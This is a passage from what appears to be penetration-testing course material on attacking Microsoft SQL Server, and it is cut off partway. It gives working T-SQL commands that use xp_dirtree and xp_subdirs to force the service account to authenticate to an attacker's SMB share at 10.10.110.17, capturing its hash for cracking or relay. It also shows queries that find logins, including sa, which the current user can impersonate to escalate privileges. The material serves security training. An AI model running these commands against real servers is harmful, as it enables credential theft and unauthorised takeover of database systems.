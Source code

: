 #### Trigger authentication to out SMB Server
##### XP_DIRTREE Hash Stealing
```cmd-session
1> EXEC master..xp_dirtree '\\10.10.110.17\share\'
2> GO
```

##### XP_SUBDIRS Hash Stealing
```cmd-session
1> EXEC master..xp_subdirs '\\10.10.110.17\share\'
2> GO
```

If the service account has access to our server, we will obtain its hash. We can then attempt to crack the hash or relay it to another host.
**!!** We get the hashes on our listening server. **!!**

## Impersonate Existing Users with MSSQL
SQL Server has a special permission, named `IMPERSONATE`, that allows the executing user to take on the permissions of another user or login until the context is reset or the session ends. Let's explore how the `IMPERSONATE` privilege can lead to privilege escalation in SQL Server.

First, we need to identify users that we can impersonate. Sysadmins can impersonate anyone by default, But for non-administrator users, privileges must be explicitly assigned. We can use the following query to identify users we can impersonate:

#### Identify Users that We Can Impersonate
```cmd-session
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO

name
-----------------------------------------------
sa
ben
valentin
```

To get an idea of privilege escalation possibilities, let's verify if our current user has the sysadmin role:
#### Verifying our Current User and Role
```cmd-session
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go

-----------
julio                                                                                                                    

(1 rows affected)

-----------
          0
```
As the returned value `0` indicates, we do not have the sysadmin role, but we can impersonate the `sa` user. Let us impersonate the user and execute the same commands. To impersonate a user, we can use the Transact-SQL statement `EXECUTE AS LOGIN` and set it to the user we want to impersonate.
